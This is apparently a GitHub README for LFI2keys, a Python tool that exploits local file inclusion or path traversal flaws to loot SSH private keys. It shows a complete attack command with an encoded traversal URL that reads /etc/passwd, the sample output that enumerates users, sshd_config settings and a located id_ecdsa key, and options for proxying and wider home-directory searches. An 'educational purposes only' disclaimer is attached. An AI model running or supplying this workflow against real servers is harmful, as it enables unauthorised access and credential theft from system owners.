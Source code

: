 ## Summary
Found a local file inclusion or path traversal vulnerability? Automate the extraction of SSH private keys with LFI2keys. It uses the exposed `/etc/passwd` file to extract valid users, checks for commonly named SSH keys, and gathers useful SSH configuration details from `/etc/ssh/sshd_config`.

## Usage
Provide the full URL of the vulnerable endpoint where you can read the `/etc/passwd` file, and supply a private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists). Use the `-v` parameter for verbose output and for printing the found private key.

```bash
┌──(kali㉿DC07 | 2025-02-12 00:13:37)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd -l ssh-priv-key-loot-extended.txt -o keys.txt

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /|   <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/

LFI to SSH Private Keys - Automated Looting Script

[*] The script provided is for educational purposes only, I am not responsible for your actions.
[+] Valid /etc/passwd file found
[+] Valid users exported:
    root -> /root (UID: 0)
    miranda -> /home/miranda (UID: 1001)
    steven -> /home/steven (UID: 1002)
    mark -> /home/mark (UID: 1003)
    nick -> /home/nick (UID: 1004)
[+] /etc/ssh/sshd_config file found
    PermitRootLogin: disabled
    PubkeyAuthentication: enabled
    PasswordAuthentication: disabled
    ChallengeResponseAuthentication: disabled
[+] Checking for SSH metadata (authorized_keys and known_hosts)...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/authorized_keys
[+] Starting to FUZZ
[!] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/id_ecdsa
[+] Done (～￣▽￣)～
```

## Options
```bash
  -h, --help            show this help message and exit
  -u URL, --url URL     LFI URL pointing to /etc/passwd
  -l LIST, --list LIST  Wordlist containing SSH private key names
  -o OUTPUT, --output OUTPUT
                        File to save found private key URLs and contents
  -p PROXY, --proxy PROXY
                        Proxy URL (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose mode for debugging
  -a, --all             Also search the entire home directory and additional paths
  -c, --continue-on-success
                        Continue scanning all users for private keys even after a match is found
```

## Disclaimer
The script provided is for educational purposes only, I am not responsible for your actions.

### Credits
- [PinoyWH1Z](https://github.com/PinoyWH1Z) for his [SSH private key wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists).
